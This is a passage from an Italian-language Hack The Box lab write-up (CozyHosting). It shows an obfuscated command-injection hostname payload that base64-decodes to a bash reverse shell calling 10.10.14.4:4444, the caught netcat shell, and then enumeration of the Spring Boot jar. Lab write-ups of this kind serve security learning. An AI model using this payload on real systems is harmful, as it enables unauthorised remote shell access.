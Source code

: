 Utilizzando come hostname questa stringa:
`;echo${IFS}"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvNDQ0NCAwPiYx"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;`
Possiamo ottenre una reverse shell sulla macchina che hosta il sito fatto con spring boot.

```shell
┌─[eu-vip-21]─[10.10.14.4]─[dua2z3rr@htb-gwqf776wqo]─[~]
└──╼ [★]$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.230] 56502
bash: cannot set terminal process group (1060): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ whoami
whoami
app
```

Non possiamo ancora prendere la user flag. Dobbiamo fare lateral movement e diventare lo user **john**.

## Lateral Movement

### Enumerazione Spring Boot

Appena otteniamo la reverse shell ci ritroviamo con un file jar nella cartella dove ci troviamo. Questo file si chiama **cloudhosting-0.0.1.jar** ed è la applicazione web spring boot.

```shell
app@cozyhosting:/app$ ls -al
ls -al
total 58856
drwxr-xr-x  2 root root     4096 Aug 14  2023 .
drwxr-xr-x 19 root root     4096 Aug 14  2023 ..
-rw-r--r--  1 root root 60259688 Aug 11  2023 cloudhosting-0.0.1.jar
```

Unzippiamo questa cartella nella cartella **tmp** dopo aver ottenuto una **full tty** attraverso il comando `script /dev/null -c bash`.

Enumeriamo ora la cartella.

> per semplicità, possiamo aprire un http server con python (`python3 -m http.server`) e trasferire la cartella sulla nostra macchina.
{: .prompt-info }

Ecco i file contenuti nel file jar:

```shell
┌─[eu-vip-21]─[10.10.14.4]─[dua2z3rr@htb-gwqf776wqo]─[~/10.10.11.230:8000]
└──╼ [★]$ tree .
.
└── app
    ├── BOOT-INF
    │   ├── classes
    │   │   ├── application.properties
    │   │   ├── htb
    │   │   │   ├── cloudhosting
    │   │   │   │   ├── compliance
    │   │   │   │   │   └── index.html
    │   │   │   │   ├── CozyHostingApp.class
    │   │   │   │   ├── database
    │   │   │   │   │   └── index.html
    │   │   │   │   ├── exception
    │   │   │   │   │   └── index.html
    │   │   │   │   ├── index.html
    │   │   │   │   ├── MvcConfig.class
    │   │   │   │   ├── scheduled
    │   │   │   │   │   └── index.html
```